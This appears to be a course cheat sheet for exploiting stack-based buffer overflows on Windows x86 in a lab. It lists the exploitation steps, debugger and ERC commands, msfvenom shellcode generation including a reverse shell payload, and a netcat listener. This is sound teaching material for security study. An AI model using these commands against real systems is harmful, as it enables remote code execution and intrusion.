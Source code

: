 # Stack-Based Buffer Overflows on Windows x86

## Cheat Sheet

The cheat sheet is a useful command reference for this module.

### Buffer Overflow Steps

1. Fuzzing Parameters
2. Controlling EIP
3. Identifying Bad Characters
4. Finding a Return Instruction
5. Jumping to Shellcode

### Commands

| Command                                                                                           | Description                                      |
| ------------------------------------------------------------------------------------------------- | ------------------------------------------------ |
| **General**                                                                                       |                                                  |
| `xfreerdp /v:<target IP address> /u:htb-student /p:<password>`                                    | RDP to Windows VM                                |
| `/usr/bin/msf-pattern_create -l 5000`                                                             | Create Pattern                                   |
| `/usr/bin/msf-pattern_offset -q 31684630`                                                         | Find Pattern Offset                              |
| `netstat -a \|findstr LISTEN`                                                                     | List listening ports on a Windows machine        |
| `.\nc.exe 127.0.0.1 8888`                                                                         | Interact with port                               |
| `msfvenom -p 'windows/exec' CMD='cmd.exe' -f 'python' -b '\x00'`                                  | Generate Local Privesc Shellcode                 |
| `msfvenom -p 'windows/shell_reverse_tcp' LHOST=10.10.15.10 LPORT=1234 -f 'python' -b '\x00\0x0a'` | Generate Reverse Shell Shellcode                 |
| `nc -lvnp 1234`                                                                                   | Listen for reverse shell                         |
| **x32dbg**                                                                                        |                                                  |
| `F3`                                                                                              | Open file                                        |
| `alt+A`                                                                                           | Attach to a process                              |
| `alt+L`                                                                                           | Go to Logs Tab                                   |
| `alt+E`                                                                                           | Go to Symbols Tab                                |
| `ctrl+f`                                                                                          | Search for instruction                           |
| `ctrl+b`                                                                                          | Search for pattern                               |
| `Search For>All Modules>Command`                                                                  | Search all loaded modules for instruction        |
| `Search For>All Modules>Pattern`                                                                  | Search all loaded modules for pattern            |
| **ERC**                                                                                           |                                                  |
| `ERC --config SetWorkingDirectory C:\Users\htb-student\Desktop\`                                  | Configure Working Directory                      |
| `ERC --pattern c 5000`                                                                            | Create Pattern                                   |
| `ERC --pattern o 1hF0`                                                                            | Find Pattern Offset                              |
| `ERC --bytearray`                                                                                 | Generate All Characters Byte Array               |
| `ERC --bytearray -bytes 0x00`                                                                     | Generate Byte Array excluding certain bytes      |
| `ERC --compare 0014F974 C:\Users\htb-student\Desktop\ByteArray_1.bin`                             | Compare bytes in memory to a Byte Array file     |
| `ERC --ModuleInfo`                                                                                | List loaded modules and their memory protections |